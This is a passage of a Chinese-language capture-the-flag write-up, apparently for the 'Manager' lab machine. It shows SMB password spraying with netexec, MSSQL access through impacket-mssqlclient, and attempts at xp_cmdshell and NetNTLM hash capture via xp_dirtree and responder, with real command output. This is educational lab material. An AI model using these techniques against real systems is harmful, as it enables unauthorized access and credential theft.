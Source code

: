 ```bash
SMB         10.10.11.236    445    DC01             [-] manager.htb\Raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\JinWoo:jinwoo STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\ChinHae:chinhae STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\Operator:operator
```

我们得到了 `Operator` 账户的账号密码

```
username: Operator
password: operator
```

> [!note]
> 1. 使用 netexec 进行密码爆破的时候，需要设置 `--no-bruteforce` 这样可以在爆破的时候，用户名和密码一一对应，而不会每一个用户名都尝试一遍所有密码。
> 2. 设置 `--continue-on-success` 参数是为了爆破出所有的有效账户。如果不设置该参数，则会在爆破出第一个有效账户的时候，结束爆破。

先枚举 `Operator` 账户可以访问的smb文件共享，发现没有敏感文件可以访问。然后尝试用该账户访问mssql，发现可以成功访问

```bash
kali@kali[~]$ netexec mssql 10.10.11.236 -u Operator -p operator
MSSQL       10.10.11.236    1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
MSSQL       10.10.11.236    1433   DC01             [+] manager.htb\Operator:operator
```

一并枚举 `winrm`、`ldap` 服务，发现还能访问 `ldap`
## 03. 使用Operator账户攻击MSSQL

我们先使用 `impacket-mssqlclient` 连上 mssql 数据库。

1. 尝试使用 `xp_cmdshell` 执行命令 --> 失败，报错数据库没有启用 `xp_cmdshell`
2. 尝试使用 `enable_xp_cmdshell` 启用 `xp_cmdshell` --> 失败，报错没有权限启用
3. 使用 `xp_dirtree` + `responder` 捕获 NetNTLM hash --> 捕获到的 NetNTLM hash 无法破解成明文
4. 使用 `xp_dirtree` 收集本机信息，一番寻找之后在网站跟目录下找到了网站的备份文件

> [!note]
> 注：在使用 `impacket-mssqlclient` 进行数据库连接的时候，记得添加 `-windows-auth`。
> MSSQL的认证方式主要可以分为以下两种：
>    1. MSSQL直接创建的数据库账户，由MSSQL通过账户密码直接认证
>    2. 具有MSSQL访问权限的域用户，基于Windows的身份认证机制进行认证
> 
> 由于我们的账户属于域用户，所以在登录的时候，需要使用基于Windows的身份认证方式。如果不添加 `-windows-auth` 会登录失败

```bash
kali@kali[~]$ impacket-mssqlclient 'Operator':'operator'@'10.10.11.236' -windows-auth
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
<省略...>
SQL (MANAGER\Operator  guest@master)> xp_dirtree \inetpub\wwwroot\
subdirectory                      depth   file   
-------------------------------   -----   ----   
about.html                            1      1
contact.html                          1      1
css                                   1      0
images                                1      0
```